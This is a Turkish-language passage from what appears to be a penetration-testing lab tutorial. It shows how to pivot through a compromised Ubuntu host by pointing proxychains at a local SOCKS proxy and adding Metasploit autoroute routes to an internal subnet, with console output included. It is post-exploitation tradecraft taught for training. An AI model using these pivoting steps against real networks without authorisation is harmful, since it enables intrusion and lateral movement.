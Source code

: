 
SOCKS sunucusunu başlattıktan sonra, Nmap gibi diğer araçlar tarafından oluşturulan trafiği tehlikeye atılmış Ubuntu hostundaki pivotumuz üzerinden yönlendirmek için proxychains'i yapılandıracağız. Aşağıdaki satırı /etc/proxychains.conf adresinde bulunan proxychains.conf dosyamızın sonuna ekleyebiliriz, eğer zaten orada değilse


### Gerekirse proxychains.conf dosyasına bir satır ekleme
```shell-session
socks4 	127.0.0.1 9050
```
Not: SOCKS sunucusunun çalıştığı sürüme bağlı olarak, zaman zaman proxychains.conf dosyasında socks4'ü socks5 olarak değiştirmemiz gerekebilir.

Son olarak, socks_proxy modülümüze tüm trafiği Meterpreter oturumumuz üzerinden yönlendirmesini söylememiz gerekir. Metasploit'in ==post/multi/manage/autoroute== modülünü kullanarak 172.16.5.0 alt ağı için rota ekleyebilir ve ardından tüm proxy zincir trafiğimizi yönlendirebiliriz.

#### Creating Routes with AutoRoute
```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

Meterpreter oturumundan autoroute çalıştırılarak autoroute ile rota eklemek de mümkündür.

```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

Gerekli rotaları ekledikten sonra, yapılandırmamızın beklendiği gibi uygulandığından emin olmak için aktif rotaları listelemek için -p seçeneğini kullanabiliriz.


### AutoRoute ile Aktif Rotaları Listeleme
```shell-session
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```
